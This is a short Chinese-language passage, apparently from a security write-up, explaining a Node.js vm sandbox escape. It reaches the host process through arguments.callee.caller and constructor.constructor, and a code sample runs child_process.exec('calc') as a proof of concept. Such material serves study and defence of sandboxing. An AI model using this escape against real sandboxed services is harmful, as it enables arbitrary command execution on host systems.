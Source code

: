 我们是不是可以想象一下，如果我们在沙箱内定义一个函数，在沙箱外调用这个函数，那么这个函数的 arguments.callee.caller 则会返回沙箱外的一个对象，那么我们我们就可以在沙箱内进行逃逸了

```bash
const vm = require('vm');
const func =
    `(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').exec('calc').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
console.log("" + res);
```

[![](assets/1706959000-7088f74f4e44a577f44e3dd64f545b03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140542-efb6d4e0-bc10-1.png)
